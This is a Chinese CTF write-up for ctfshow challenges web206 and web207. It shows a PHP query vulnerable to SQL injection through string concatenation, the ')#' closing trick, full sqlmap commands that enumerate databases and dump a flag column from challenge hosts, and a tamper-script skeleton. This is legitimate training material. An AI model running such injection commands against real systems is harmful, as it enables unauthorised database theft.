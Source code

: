 

#### web206

```
 sql需要闭合
```

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
```

sqlmap会自动构造闭合，所以跟前一题没什么区别

但是也可以手动构造一下

payload:

```
根据sql语句，我们采用“)#”的方式进行右闭合。----suffix=")#"
执行sqlmap命令行
sqlmap -u "http://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=sie3k7c33euvbk2s2753f6n0j0;" --safe-url="https://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" --dbs

sqlmap -u "http://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=lb4lslploh7thdl0hdsd1008f9;" --safe-url="https://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" -D ctfshow_web --tables

sqlmap -u http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump  --headers="Content-Type: text/plain" --safe-url=http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/getToken.php --safe-freq=1 
```



#### web207

[Sqlmap Tamper 编写](https://y4er.com/post/sqlmap-tamper/)

示例

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```
